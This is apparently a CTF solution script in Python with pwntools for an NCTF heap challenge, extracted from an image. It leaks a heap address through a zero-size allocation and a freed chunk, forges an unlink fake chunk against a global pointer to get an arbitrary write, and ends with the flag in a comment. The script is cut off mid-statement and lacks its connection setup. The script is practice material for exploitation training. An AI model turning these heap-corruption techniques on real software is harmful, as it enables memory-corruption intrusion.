 ```

def add(size,content):
	p.recvuntil('5,exit\n')
	p.sendline('1')
	p.recvuntil('size:\n')
	p.sendline(str(size))
	p.recvuntil('content:\n')
	p.send(content)

def delete(index):
	p.recvuntil('5,exit\n')
	p.sendline('2')
	p.recvuntil('idx:\n')
	p.sendline(str(index))

def show(index):
	p.recvuntil('5,exit\n')
	p.sendline('3')
	p.recvuntil('idx\n')
	p.sendline(str(index))

def edit(index,content):
	p.recvuntil('5,exit\n')
	p.sendline('4')
	p.recvuntil('idx:\n')
	p.sendline(str(index))
	p.recvuntil('content:\n')
	p.send(content)

add(0x10,'\x00'*0x10) #0
add(0x10,'\x11'*0x10) #1
delete(0)
delete(1)

p.recvuntil('5,exit\n')
p.sendline('1')
p.recvuntil('size:\n')
p.sendline('0')
p.recvuntil('content:\n')

edit(0,'\x50')
show(0)
heap_addr = u64(p.recvuntil('\n',drop=True).ljust(8,'\x00')) - 0x50
log.success('heap_addr = '+hex(heap_addr))

add(0x38,'\x11'*0x30) #1
add(0xf0,'\x22'*0xf0) #2
add(0x20,'\x33'*0x20) #3

delete(1)
payload = p64(0) + p64(0x31) + p64(0x6020e8-0x18) + p64(0x6020e8-0x10) + p64(0)*2 + p64(0x30)
add(0x38,payload)
delete(2)

payload = p64(0)*2 + p64(heap_addr+0x10)
edit(1,payload)

edit(0,p64(0x66666666))
p.recvuntil('5,exit\n')
p.sendline('5')

#NCTF{Ohh!h0pe_y0u_c4n_pwn_100years_too}
if attach == 1:
```